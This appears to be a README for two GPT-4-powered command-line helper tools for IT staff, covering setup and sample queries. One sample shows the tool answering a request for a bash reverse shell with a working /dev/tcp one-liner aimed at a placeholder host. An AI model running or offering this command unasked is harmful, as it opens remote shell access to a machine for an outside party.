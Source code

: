 # howto & whatis

Simple, GPT-4 powered, command-line tools designed to assist IT professionals with their daily tasks.

## Setup

1. Set `OPENAI_API_KEY` environment variable containing OpenAI API key.
2. Download the release binaries or (modify the code and) build them by yourself using `cargo build -r`.
3. Place the binary in your `PATH`.

## Usage examples

```shell
$ howto format string in Rust

Use the `format!` macro. For example: `let s = format!("{} {}", "Hello", "World");`

```

~~~shell
$ howto get reverse shell using bash

```bash
bash -i >& /dev/tcp/HOST/PORT 0>&1
```
~~~

```shell
$ whatis Log4Shell

Log4Shell is a vulnerability in Apache Log4j.
```

```shell
$ whatis decoded string: aHR0cHM6Ly93d3cueW91dHViZS5jb20vd2F0Y2g/dj1kUXc0dzlXZ1hjUQ==

The decoded string is: https://www.youtube.com/watch?v=dQw4w9WgXcQ

```
